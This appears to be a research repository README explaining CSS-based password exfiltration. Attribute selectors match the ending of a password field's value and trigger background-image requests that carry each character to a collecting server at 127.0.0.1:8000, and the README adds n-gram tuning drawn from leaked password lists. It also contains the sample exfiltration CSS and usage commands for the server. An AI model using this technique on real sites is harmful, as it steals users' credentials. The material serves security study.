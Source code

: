 # Idea
By utilizing the possibilities of CSS selectors such as `input[type='password'][value$='xyz']` we can check if a password field ends with a given string. This can be used to exfiltrate the password character by character.

This idea is not new. There are already multiple implementations of this idea.
I added some improvements to the idea. See section "How it works" for more information.

# How it works

By adding multiple selectors and loading a background image from a server, we can exfiltrate the password character by character.
```
input[type="password"][value$="a"] {
    background-image: url("http://127.0.0.1:8000/?k=a");
}
input[type="password"][value$="b"] {
    background-image: url("http://127.0.0.1:8000/?k=b");
}
```

This approach has a big disadvantage. The same URL will only be requested once. This means that `hello` will by exfiltrated as `helo`.
To fix this we can generate all 2-character permutations. Let's say we have $94$ printable charaters. This will generate $94^2=8836$ selectors (which is acceptable). But this will also limit repeating patterns. Additionaly most of those permutations are rather useless. Statistically quite nobody uses `f:` inside their password. If we would extend this to 3 characters, we would have $94^3=830584$ selectors. This would be overkill.

We can easily make use of 5.000 selectors and more. To use wasted selectors, we can extract the most common 1, 2 and 3 character combinations from english passwords (like rockyou.txt).
| Combination | Count |
|-------------|-------|
| 1-char      | all   |
| 2-char      | 50 % (of the most common) |
| 3-char      | 25 % (of the most common) |
| n-char      | $100/n$ % (of the most common) |

# Usage

See the help message for usage information.
```bash
python3 server.py -h
```

The server needs a frequency histogram of the characters. You can generate one by using the `frequency_analyzer.py` script.
```bash
python3 frequency_analyzer.py -h
```

# Limitations
* Won't detect character deletion
* It can only detect character combinations once. Repeating patterns won't get exfiltrated.

# Notice
This repository was created during security research at university. It is only intended for educational purposes and should not be used for illegal activities. The author assumes no liability for any damage caused by the use of the code.